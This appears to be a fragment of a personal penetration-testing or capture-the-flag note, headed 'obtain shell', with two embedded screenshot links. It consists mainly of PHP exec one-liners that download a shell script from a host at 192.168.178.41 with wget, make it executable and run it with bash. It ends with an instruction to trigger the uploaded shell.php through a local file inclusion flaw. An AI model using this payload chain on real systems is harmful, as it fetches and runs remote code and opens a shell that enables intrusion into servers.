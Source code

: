 ![[Pasted image 20210606170602.png]]

![[Pasted image 20210606170616.png]]

# obtain shell


```php
<?php echo exec("wget 192.168.178.41/shell.sh -O /tmp/shell.sh"); ?>

<?php echo exec("chmod +x /tmp/shell.sh"); ?>

<?php echo exec("ls -la /tmp/shell.sh"); ?>

<?php echo exec("/bin/bash /tmp/shell.sh"); ?>
```

call the shell.php with the LFI



